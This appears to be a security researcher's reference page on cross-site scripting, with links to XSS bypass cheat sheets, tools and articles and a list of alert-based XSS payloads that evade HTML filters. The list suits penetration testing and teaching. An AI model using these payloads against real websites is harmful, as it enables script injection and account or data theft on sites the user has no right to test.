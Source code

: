 # xss sets
[Sec-wiki XSS](https://www.sec-wiki.com/news/search?wd=xss) 
[XSS过滤绕过速查表](https://www.freebuf.com/articles/web/153055.html)  

# Tools
[Beef](https://github.com/beefproject/beef)  
[XSStrike](https://github.com/s0md3v/XSStrike)  
[xssor2](https://github.com/evilcos/xssor2)  
[xssfork](https://github.com/bsmali4/xssfork)  
[XSS-Filter-Evasion-Cheat-Sheet-CN](https://github.com/l3m0n/XSS-Filter-Evasion-Cheat-Sheet-CN)  

# blogs
[BRUTE XSS](http://brutelogic.com.br/blog/)  

# articles
[Bypass XSS Protection with xmp, noscript, noframes.. etc](https://www.hahwul.com/2019/04/bypass-xss-protection-with-xmp-noscript-etc....html)  
[XSS attacks on Googlebot allow search index manipulation](https://www.tomanthony.co.uk/blog/xss-attacks-googlebot-index-manipulation/)  
[Google搜索中的突变XSS](https://xz.aliyun.com/t/4865)  
[特斯拉上价值10000美元的XSS漏洞](https://nosec.org/home/detail/2781.html)  

[About Google](https://nosec.org/home/detail/2449.html)  
[Xss Sets](https://www.hahwul.com/2019/04/bypass-xss-protection-with-xmp-noscript-etc....html)  

```JavaScript
<script>alert(1)</script>
"><script>alert(1)</script>
"><script>alert(document.domain)</script>
"><script>alert(1)</script><" 
'"><script>alert(1)</script>
'"><script>alert(1)</script>"
';"<script>alert(1)</script>
</script><script>alert(1)</script>
<img src='' onerror=alert(/poc/)>
<img src=1 alt="xss＂onerror=alert(1);//">
<DIV STYLE="width: ｅxpression(alert('XSS'));">
"><BODY ONLOAD=alert(1)>,1/

</title><script>alert(/poc/)</script>
<STYLE>@im\port'\ja\vasc\ript:alert("XSS")';</STYLE> 
<noscript><p title="</noscript><img src=x onerror=alert(1)>">
<noscript><p title="</noscript><svg/onload=alert(1)>">
<xmp><p title="</xmp><svg/onload=alert(1)>">
<noframes><p title="</noframes><svg/onload=alert(1)>">
<iframe><p title="</iframe><svg/onload=alert(1)>">
<iframe style="visibility:hidden"><p title="</iframe><svg/onload=alert(1)>">
<svg onload=alert(document.domain)>

location:
<body/onload=eval(location.hash.slice(1))>#alert(1)
<body/onload=setTimeout(location.hash.substr(1))>#alert(1)

```

